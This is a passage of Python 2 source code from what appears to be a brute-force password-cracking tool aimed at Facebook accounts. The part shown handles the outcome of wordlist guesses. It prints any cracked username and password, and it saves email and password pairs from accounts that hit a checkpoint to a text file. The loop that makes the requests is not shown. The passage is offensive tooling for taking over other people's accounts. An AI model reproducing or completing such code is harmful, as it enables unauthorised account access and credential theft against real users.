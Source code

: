                         print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'

                        print 52 * '\x1b[1;97m\xe2\x95\x90'

                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email

                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw

                        keluar()

                    else:

                        if 'www.facebook.com' in mpsh['error_msg']:

                            ceks = open('Brutecekpoint.txt', 'w')

                            ceks.write(email + ' | ' + pw + '\n')

                            ceks.close()

                            print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'

                            print  "\033[1;36;40m ●════════════════════════◄►════════════════════════●"

                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'

                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email

                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw

                            keluar()

                except requests.exceptions.ConnectionError:

                    print '\x1b[1;91m[!] Connection Error'

                    time.sleep(1)

        except IOError:

            print '\x1b[1;91m[!] File not found...'

            print """\n\x1b[1;91m[!] \x1b[1;92mLooks like you don't have a wordlist"""

            super()

if __name__ == '__main__':

	login()
